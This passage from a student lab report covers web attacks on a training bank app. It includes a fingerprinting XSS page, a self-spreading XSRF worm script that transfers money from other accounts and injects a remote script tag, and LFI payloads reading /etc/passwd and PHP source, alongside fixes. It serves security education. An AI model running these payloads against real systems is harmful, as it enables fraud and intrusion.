$sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '"<@\colorbox{yellow}{.\$http['remark'].}@>"', ".$http['amount'].")";
	\end{lstlisting}
	

	There is no input validation for the remark field. Due to which an attacker can insert scripts and perform an attack. For this we used the strip\_tags PHP function which will return a string with all NULL bytes, HTML and PHP tags stripped from a given string. Thus, even if the attacker is able to insert the script, it will not be executed. Also, we can implement htmlspecialchars function that converts some predefined characters to HTML entities. So the script will not be executed and will be displayed as plain text on the web page.
	
	This helps to enable both input and output validation and on the server end. We can put in place form validation controls for client side input validation.
	
	
	
	\paragraph*{5.}{\bf Create your XSS attack. Convince the lab instructor to access the URL and perform the following client-side attacks:
		\begin{itemize}
			\item Enumerate the browser and the underlying OS.
			\item Play your favourite sound track on the victim's machine.
			\item Spawn a shell (if possible).
		\end{itemize}
		hint: Using a tool may help. However, it is up to you if you like old school methods.
	}\\

	On our local machine, we set up our web server and created a html file with javascript.\\
	This is the source code of the template used by our attack to server. Javascript script code extracts the browser and Operating system information and play a music.
	
	\begin{lstlisting}[breaklines=true,language=Java]
<html>
<head>
<script src = "/static/detect.js"></script>
<script>
var info = "\n".concat(jscd.os,"+", jscd.osVersion,"+", jscd.browser,"+", jscd.browserMajorVersion,"+", jscd.browserVersion, "+", encodeURIComponent(navigator.userAgent));
function httpGet(theUrl){
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
xmlHttp.send( null );
return xmlHttp.responseText;}
x = httpGet("/store/"+info);
</script>
</head>
<body>
<h1>Hi! How are you?</h1>
<audio style="display:none;" controls  autoplay id="audio-example">
<!-- One or more source files, each referencing the same audio but in a different file format.
The browser will choose the first file which it is able to play. -->
<source src="/static/a.mp3">
You will see this text if native audio playback is not supported.
<!-- You could use this fall-back feature to insert a JavaScript-based audio player. -->
</audio>
</body>
</html>
	\end{lstlisting}
	
	We found out that the victim is running Ubuntu 8.04 with the browser Firefox version 33.6.17.\\
	However, it was not possible to spawn a shell in client's machine. This is one of the limitations on client side scripting. Spawning a shell through client side scripting would cause a very serious security threat.
	\newpage
	
	\section*{Exercise 3: Cross Site Request Forgery - XSRF}
	\paragraph*{1.}{\bf Briefly explain why your bank is theoretically vulnerable to a cross site request forgery (XSRF) attack!}\\
	
	The bank is vulnerable to  cross site request forgery (XSRF) attack as many required security mechanisms to block such an attack are not in place. 
	\begin{itemize}
		\item Synchronizer tokens are not used. Any state changing operation requires a secure random token (e.g., CSRF token) to prevent CSRF attacks
		\item No mechanism for source and target origin.
		\item No user interaction. Sometimes it is easier or more appropriate to involve the user in the transaction in order to prevent unauthorized transactions (forged or otherwise). E.g., challenge-response mechanism
	\end{itemize}
	
	\paragraph*{2}{\bf Assume that you are a valid customer of your bank. Show how you can use XSRF to transfer money from another account to your account. }\\
	
	Being a valid customer we do have access to the bank. So we login and go to Transfer Funds page. We set the source and destination account, amount to be transferred. As known before, the remark field is vulnerable. So we use it to penetrate and transfer money from another account to our account.  Although we know that the remark field is an weak input vector, we need to know about the logic  of how the request is processed. Below are the steps we followed.\\
	
	We intercepted using Burp Suite, the values that are sent to the application. The source account number (credit account) is converted using XOR.
	\begin{figure}[H]
		
\includegraphics[width=0.70\textheight]{images/3_2burp.jpg}
		\caption{Burpsuit interception.}
		
	\end{figure}
	
	\paragraph*{3.}{\bf Enhance your last attack such that it automatically spreads to other accounts and transfers you money from them too. Briefly explain your attack.}\\
	
	We used below javascript to spread the attack to other accounts such that we will receive money from them. by inspecting the accounts page we get to know about the html structure of the page. Thus we know about the tr and td elements. We obtained account numbers through td elements of the table. We have made sure that our account is not debited in the attack. 
	
	{\bf file: Attack.js}
	
	\begin{lstlisting}[breaklines=true]
url = window.location.href.split("=");
an = url[url.length - 1];
x = new XMLHttpRequest();
a1 = "index.php?page=htbtransfer&srcacc=";
a2 = "&dstbank=41131337&dstacc=";
a3 = "&amount=22&remark=<script src=http://localhost:5000/static/attack.js></script>&htbtransfer=Transfer";
a4 = "&amount=44&remark=bling&htbtransfer=Transfer";
	
//Make money
	
x.open("GET", a1+an+a2+"55555555"+a4, false);
x.send();
	
l = [];
r = [];
	
t = function() {
return document.getElementsByClassName("tblList")[0].rows;
}
f = function(i, tg, n) {
return t()[i].getElementsByTagName(tg)[n]
}
for (i = 0; i < t().length; i++) {
try {
destination = f(i, "td", 2).innerHTML;
if (destination != "55555555")
l.push(destination);
} catch (e) {;
}
}
filter = function(v, i) {
return this.indexOf(v) == i;
};
fd = l.filter(filter, l);
	
console.log("Filtered destinations:", fd);
	
tf = function(d) {
return a1.concat(an, a2, d, a3)};

a = function(d) {
console.log(tf(d));
x.open("GET", tf(d), false);
x.send();
}
	
for (i = 0; i < fd.length; i++) {
a(fd[i]);
}
	
/*
Notes:
Functions & vars: 
ft -> filter
fd -> filtered destinations
t -> list of all the table tr elements
f -> function for getting all account number from td elements
a -> Attack function with the GET request
a1, a2, a3, a4 -> Strings to make the URL
an -> accountNumber
d -> destination account number
r -> remark
x -> HTTP request object
tf -> temprovary function
tf1 -> temp func for encoding URI and adding s.push
wr -> code wrappers
* 
*/
	\end{lstlisting}
	
	The attack was successful, here is the screenshot of incoming fund.
	
	\begin{figure}[H]
		
\includegraphics[width=0.75\textheight,height=0.5\textheight]{images/3_3moneycomes.jpg}
		\caption{Burpsuit interception.}
		
	\end{figure}
	\newpage
	
	\section*{Exercise 4: Local File Inclusion - LFI}
	\paragraph*{1.}{\bf Briefly explain the concept of LFI in your own words.}\\
	\begin{itemize}
		\item Local File inclusion (LFI), or simply File Inclusion, refers to an inclusion attack through which an attacker can trick the web application in including files on the web server by exploiting functionality that dynamically includes local files or scripts.
		\item The consequence of a successful LFI attack includes Directory Traversal and Information Disclosure as well as Remote Code Execution. If the input is not properly sanitized, this attack can allow directory traversal characters (such as dot-dot-slash) to be injected.
		\item Usually the path of the file you want to open is sent to a function which returns the content of the file as a string, or prints it on the current web page, or includes it into the document and parses it as part of the respective language.
	\end{itemize}
	\paragraph*{2.}{Connect again to your Lab's network and find the target web server. Apply your knowledge and capture the flag.}
	
	
	\begin{itemize}
		\item Using zenmap, we found the machine running at the IP address 192.168.1.107, with the title ''YEEEP ... OTAKUS''.
		\item When we use browser tools and look at the cookie storage, we can notice a cookie with the title 'lol' with the value ''wot.txt''.
		\item Replacing ''wot.txt'' with a simple LFI attack, such as ''../../../../etc/passwd'', we were able to print the contents of the Unix passwd file's contents onto the web-page.
		\item It is possible to deduce that the default folder /var/www has the index.php page, where the flag is located. When we tried to access ''../../../../var/www/index.php'', the default page gets rendered. Since it was a php script, the file ran on the web browser.
		\item  To view the source, the PHP wrapper method can be used, by using: ''php://filter/convert.base64-encode/'' following the url. This will allow us to get the contents without the PHP code being executed in the backend.
	\end{itemize}
	  
	
	\paragraph*{3.}{\bf What mistakes may cause LFI to happen. How to avoid this vulnerability. Show a vulnerable code and apply your patch to it.}\\
	Causes
	
	- Typically, Local File Inclusion (LFI) occurs, when an application gets the path to the file that has to be included as an input without treating it as untrusted input. This would allow a local file to be supplied to the include statement.\\\\
	Avoiding LFI 
	
	- Read or Download files securely 
	
	- Save the file paths in a database and assign an ID to each of them. BY doing so users only see the ID and are not able to view or change the path.
	
	- Use a white list of filenames and ignore every other filename and path.
	
	- Instead of including files on the web server, store their content in databases where possible.
	
	-Instruct the server to automatically send download headers and not execute files in a specific directory such as /download/. That way you can point the user directly to the file on the server without having to write additional code for the download.
	
	
\end{document}
